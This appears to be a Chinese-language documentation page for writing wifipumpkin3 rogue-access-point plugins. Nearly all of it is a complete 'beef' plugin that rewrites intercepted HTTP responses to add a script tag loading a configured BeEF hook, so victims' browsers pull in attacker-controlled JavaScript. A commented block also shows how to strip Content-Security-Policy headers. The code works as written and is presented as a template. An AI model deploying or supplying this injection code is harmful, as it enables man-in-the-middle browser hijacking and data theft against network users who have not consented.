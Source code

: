 * exampleplugin 键值是用于更改启用或禁用插件的复选框选项
* set\_exampleplugin 键值用于在设置中搜索所有参数

![](../.gitbook/assets/image%20%283%29.png)

### 带有参数的`wp3`示例

```text
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup


class beef(BasePumpkin):
    meta = {
        "_name": "beef",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return beef.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.urlhook = self.config.get("set_beef", "hook")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "html.parser")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.urlhook
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data

```
